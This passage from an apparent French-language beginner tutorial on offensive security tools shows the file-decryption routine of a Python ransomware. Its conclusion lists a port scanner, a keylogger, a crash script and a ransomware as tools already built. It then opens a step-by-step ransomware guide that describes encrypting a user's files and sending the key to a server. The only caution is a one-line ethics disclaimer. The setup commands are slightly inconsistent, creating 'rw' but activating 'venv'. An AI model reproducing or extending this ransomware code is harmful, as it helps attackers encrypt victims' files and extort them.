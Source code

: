 #### Décryptage

```python
def decrypt(key):
    while True:
        file = q.get()
        try:
            key_index = 0
            max_key_index = len(key) - 1
            encrypted_data = ''

            with open(file, 'rb') as f:
                data = f.read()
            with open(file, 'w') as f:
                f.write('')
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
                    f.write(xor_byte.to_bytes(1, 'little'))
                if key_index >= max_key_index:
                    key_index = 0
                else:
                    key_index += 1
            print(f'{file} successfully decrypted!!!')
        except:
            print(f'Failed to decrypt file :(')
        q.task_done()
```

### Conclusion

Avec ces étapes, vous avez créé plusieurs outils de sécurité offensive, y compris un scanner de ports multithreadé, un keylogger de base, un crash de PC par script et un ransomware simple. Assurez-vous d'utiliser ces connaissances de manière éthique et légale.



# Étape 6 : Création de Ransomware Python étape par étape

Cette étape détaille comment créer un ransomware en Python. Le ransomware chiffre les fichiers de l'utilisateur et envoie la clé de chiffrement à un serveur. Voici les étapes détaillées pour les débutants.

#### 1. Pré-requis

Assurez-vous d'avoir installé Python sur votre machine. Vous pouvez télécharger Python à partir de [python.org](https://www.python.org/downloads/).

#### 2. Création de l'environnement virtuel

Créez un environnement virtuel pour isoler les dépendances de votre projet.

```bash
python -m venv rw
cd rw
source venv/bin/activate  # Sur Windows: venv\Scripts\activate
```
